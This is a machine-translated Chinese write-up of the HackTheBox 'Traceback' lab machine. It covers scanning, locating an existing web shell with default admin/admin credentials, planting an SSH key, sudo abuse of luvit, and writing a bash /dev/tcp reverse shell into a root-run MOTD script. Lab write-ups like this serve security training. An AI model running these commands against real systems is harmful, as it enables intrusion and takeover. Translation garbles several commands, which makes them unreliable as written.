










# 黑客盒子回溯记录

> 原文：<https://infosecwriteups.com/hackthebox-traceback-write-up-9970293acc25?source=collection_archive---------4----------------------->

我们会利用 HTB 的回溯技术。盒子太简单了，太直截了当了。如果你是初学者，我会推荐你用这个盒子。让我们开始开发它的旅程。

# 列举

从[nma 自动扫描](https://github.com/21y4d/nmapAutomator)开始

> cmd =。/nma 自动马达 10.10.10.181 全部

> traceback.htb 的 Nmap 扫描报告(10.10.10.181)
> 主机已启动(0.16 秒延迟)。
> 
> 端口状态服务版本
> 22/tcp 开放 ssh OpenSSH 7.6p 1 Ubuntu 4 Ubuntu 0.3(Ubuntu Linux；协议 2.0)
> | ssh-hostkey:
> | 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:E5:6d:8a:28(RSA)
> | 256 54:BD:46:71:14:BD:B2:42:a1:B6:B0:2d:94:14:3b:0d(ECD sa)
> |CPE: cpe:/o:linux:linux_kernel

在继续之前，让我们分析一下端口扫描。机器上运行着两个端口，分别是 22 和 80。我们需要一些凭证来登录运行 ssh 服务的端口 22 和运行 http 服务的端口 80。现在让我们开始枚举端口 80。

这将是机器的主页。通过阅读网站上的文字，我们可以知道网站上还有任何后门。也看看源代码吧。

现在，很明显，后门是关于机器上的 web 外壳的。让我们来寻找“最佳网络外壳”。

经过一番侦查，我们得到了一个 GitHub 回购，它拥有最好的 web shells，即“[https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells)”。下载回购文件，列出所有网络外壳名称，运行 dirb 扫描仪检查后门文件的位置。

> cmd = dirb[http://traceback . htb](http://traceback.htb)~/HTB/traceback/we B- shell/shell . txt

几分钟后，我们观察到有一个后门“smevk.php”在网站上运行。

如前所述，框是直截了当的，我们可以很容易地在 smevk.php 的默认凭证登录

> 用户名:- admin
> 
> 密码:- admin

登录后，我们会被引导到这里

我们可以看到，我们有多种功能，例如

> 1.上传文件。
> 
> 2.建立档案。
> 
> 3.阅读文件。
> 
> 4.执行任何命令。
> 
> 5.制作一个目录。

现在让我们从上传 netcat 的 execute any command 功能开始，这样我们可以得到一个反向 shell。

# 剥削

正如我们可以看到的，我们有一个执行命令的选项，那么让我们通过将我们的 ssh 公钥添加到当前用户~/来尝试使用正确的 ssh 会话而不是 web shell。ssh/授权密钥。

如果你不熟悉如何做到这一点，然后访问[这里](https://docs.oracle.com/cd/E19683-01/806-4078/6jd6cjru7/index.html)。

现在，在生成公共 ssh 密钥之后，复制“id_rsa.pub”并在 web 页面上执行以下命令。

> cmd = echo " your _ id _ RSA . pub " > >/home/web admin/。ssh/authorized _ key。

执行该命令后，我们可以使用 ssh 连接进行连接。

现在，让我们寻找对 root 用户的权限提升。

# 后期开发

当我们在 webadmin 中查看时，我们得到一个 note.txt 文件，并检查 sudo 权限。

正如我们看到的，我们可以通过 luvit 访问链接“【https://gtfobins.github.io/gtfobins/lua/】T2”来枚举 sysadmin。正如我们看到的，我们可以通过 sudo 权限来枚举

执行下面的命令，我们可以枚举为 sysadmin。

> cmd = sudo-u sysadmin/home/sysadmin/luvit-e ' OS . execute("/bin/bash ")'

现在，让我们看看如何枚举 root 并获取 root.txt。因此，我们将在计算机上运行 LinPriv.sh 文件并查看结果。

在浏览结果时，我们观察到当从 ssh 登录时，有一个脚本“00-header”作为 root 运行。

答对了，现在我们有两个选择

1.  我们可以把一个反壳作为根。
2.  我们可以得到 root.txt。

让我们以反壳为根。

我在脚本的顶部添加了 nc reverse shell，这样 rev shell 代码可以首先执行。

> cmd = echo -e '#！/bin/bash \ nbash-I > &/dev/TCP/IP/5555 0 > & 1 ' > 00-header

现在执行命令，然后在另一个选项卡中用 ssh 再次连接，我们在那里得到一个反向连接。

答对了，我们已经成功地把箱子扎根了。

> 感谢阅读。

[点击这里](http://buymeacoff.ee/Viston)

[点击这里](https://www.hackthebox.eu/profile/196419)

 [## Linux 权限提升

### 定时器是 systemd 单元文件，其名称以。控制的计时器。服务文件或事件。可以用作…

book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)  [## lua | GTFOBins

### 它可以通过生成交互式系统外壳来突破受限环境。它可以发回一个…

gtfobins.github.io](https://gtfobins.github.io/gtfobins/lua/)  [## rebootuser/LinEnum

### 欲了解更多信息，请访问 www.rebootuser.com 注意:出口功能目前处于试验阶段…

github.com](https://github.com/rebootuser/LinEnum)  [## 在 Windows 中手动生成 SSH 密钥

### 在 Windows 上，可以用多种方式创建 SSH 密钥。这个文档解释了如何使用两个 SSH 应用程序，PuTTY 和 Git…

docs.joyent.com](https://docs.joyent.com/public-cloud/getting-started/ssh-keys/generating-an-ssh-key-manually/manually-generating-your-ssh-key-in-windows)  [## 如何使用 ssh-keygen 生成新的 ssh 密钥

### 这个页面是关于 ssh-keygen 的版本。请参见。如果您希望为生成密钥，请参见 Windows 上的 PuTTYgen 或…

www.ssh.com](https://www.ssh.com/ssh/keygen/)